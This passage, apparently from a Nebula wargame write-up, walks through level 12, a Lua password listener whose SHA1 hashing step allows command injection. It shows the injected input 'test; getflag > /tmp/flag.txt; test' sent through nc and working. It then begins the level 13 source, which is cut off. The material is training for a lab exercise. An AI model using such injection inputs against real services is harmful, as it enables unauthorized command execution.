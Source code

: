       if h ~= "4754a4f4bd5787accd33de887b9250a0691dd198" then
          client:send("Better luck next time\n");
      else
          client:send("Congrats, your token is 413**CARRIER LOST**\n")
      end

  end

  client:close()
end
{{< /codecaption >}}

The listener expects a password which is hashed (SHA1) and compared to a hardcoded value. The way the hash is calculated is vulnerable
to command injection:

{{< codecaption lang="sh" title="Flag12" >}}
level12@nebula:/home/flag12$ nc localhost 50001
Password: test
Better luck next time
level12@nebula:/home/flag12$ nc localhost 50001
Password: test; getflag > /tmp/flag.txt; test
Better luck next time
level12@nebula:/home/flag12$ cat /tmp/flag.txt 
You have successfully executed getflag on a target account
level12@nebula:/home/flag12$ 
{{< /codecaption >}}

### Level13

#### Description:

> *There is a security check that prevents the program from continuing execution if the user invoking it does not match a specific user id.*

{{< codecaption lang="c" title="Source Code" >}}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <sys/types.h>
#include <string.h>

#define FAKEUID 1000

int main(int argc, char **argv, char **envp)
{
  int c;
  char token[256];

  if(getuid() != FAKEUID) {
      printf("Security failure detected. UID %d started us, we expect %d\n", getuid(), FAKEUID);
      printf("The system administrators will be notified of this violation\n");
      exit(EXIT_FAILURE);
  }


[phpexploit]: http://www.madirish.net/402
[race]: https://en.wikipedia.org/wiki/Time_of_check_to_time_of_use
[ld]: (https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/)